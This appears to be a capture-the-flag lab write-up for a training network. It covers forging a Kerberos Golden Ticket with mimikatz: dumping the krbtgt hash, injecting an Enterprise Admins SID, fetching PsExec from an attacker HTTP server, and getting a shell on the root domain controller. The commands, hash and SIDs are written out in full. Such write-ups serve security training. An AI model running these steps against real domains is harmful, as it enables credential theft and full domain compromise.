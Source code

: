 [Connect to CORP.DC with Administration credentials](app://obsidian.md/Dumping%20secrets%20from%20CORPDC#Connect%20to%20RDP%20with%20the%20Administrator's%20credentials)

To carry out this attack you will need:

- The KRBTGT password hash.
- The SID of the child Domain Controller (CORPDC).
- The user account we want to impersonate (Administrator).
- Dump SID of **“Enterprise Admin”** of root.thereserve.loc.
	To make your attack more advanced, you can also inject the SID for the `Enterprise Admins` group so that the user you impersonate would have high privileges. This will give you access to all the machines in the entire Forest if we are successful in doing so.
## Dump the krbtgt Hash


1. On the VICTIME_MACHINE poweshell run mimikatz.exe.
    
2. Once in mimikatz run:
	`privilege::debug` 
	 Ensure this outputs privilege "20" ok.
    
3. ﻿`lsadump::lsa /inject /name:krbtgt`
	This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket.
	
    ![[Golden Ticket Attack with mimikatz-20240608142406169.webp]]

4. Take note of what is outlined in red you'll need it to create the golden ticket.
	- S-1-5-21-170228521-1485475711-3199862024
	- krbtgt
	- 0c757a3445acb94a654554f3ac529ede


## Get the SID of the child Domain Controller (CORPDC)
On powershell run:

PS C:\Users\Administrator> `Get-ADComputer -Identity "CORPDC"`

![[Golden Ticket Attack with mimikatz-20240608151913994.webp]]


## Dump SID of **“Enterprise Admin”** of root.thereserve.loc

Run on powershell:
PS C:\Users\Administrator> `Get-ADGroup -Identity "Enterprise Admins" -Server rootdc.thereserve.loc`

![[Golden Ticket Attack with mimikatz-20240608152813146.webp]]


## Create the Golden ticket
And now, with all the required information, we can create our own Golden Ticket, which will be injected in the current session.
In **mimikatz** run:

 `kerberos::golden /user:Administrator /domain:corp.thereserve.loc /sid:S-1-5-21-170228521-1485475711-3199862024-1009 /service:krbtgt /rc4:0c757a3445acb94a654554f3ac529ede /sids:S-1-5-21-1255581842-1300659601-3764024703-519 /ptt`

### Understanding the Command
- `kerberos::golden`: Indicates that you are creating a Golden Ticket.
- `/user:Administrator`: Specifies the user for whom the Golden Ticket is being created (in this case, the domain administrator).
- `/domain:corp.thereserve.loc`: Specifies the target domain.
- `/sid:S-1-5-21-170228521-1485475711-3199862024-1009`: Specifies the Security Identifier (SID) of the target domain.
- `/service:krbtgt`: Specifies the service account to use, which is typically `krbtgt` (Kerberos Ticket Granting Ticket).
- `/rc4:0c757a3445acb94a654554f3ac529ede`: Specifies the RC4 hash of the `krbtgt` account password.
- `/sids:S-1-5-21-1255581842-1300659601-3764024703-519`: Adds an additional SID to the ticket (useful for domain enumeration and access).
- `/ptt`: Indicates that the ticket should be injected into the current session (Pass-The-Ticket).

![[Golden Ticket Attack with mimikatz-20240608145025836.webp]]

## Use the Golden Ticket to access other machine

﻿In mimikatz run:﻿
﻿`misc::cmd`
﻿
﻿This will open a new command prompt with elevated privileges to all machines.
﻿
![[Golden Ticket Attack with mimikatz-20240608145512638.webp]]

## Test the access to rootdc.thereserve.loc

Run on the shell the following command:

C:\Users\Administrator>`dir \\rootdc.thereserve.loc\c$`

![[Golden Ticket Attack with mimikatz-20240608153405335.webp]]
Exit the shell.

## Get a shell on the ROOTDC

### Download pstools to the attacking machine
https://learn.microsoft.com/en-us/sysinternals/downloads/psexec

- Unzip the file.
- Start a python http server on you attacking machine in the directory where you unzipped pstools.
- Get psexec.exe from the powershell on the ROOTCD machine.
	PS C:\Users\Administrator> `wget http://10.50.110.16:8000/PsExec.exe -o psexec.exe`

### PowerShell session in ROOTDC

You can also issue a command prompt in the ROOTDC through PSEXEC.

PS C:\Users\Administrator> `.\psexec.exe \\rootdc.thereserve.loc cmd.exe`

![[Golden Ticket Attack with mimikatz-20240614145454849.webp]]

![[Golden Ticket Attack with mimikatz-20240609134614662.webp]]

![[Golden Ticket Attack with mimikatz-20240609134803204.webp]]
![[Golden Ticket Attack with mimikatz-20240609134915452.webp]]

## Authenticate the flagS on e-citizen

> Flag 15, Foothold on Parent Domain
> Flag 16, Administrative access to Parent Domain

[[Flag Submission Process]]

**Next step:** [[Maintain persistence]]
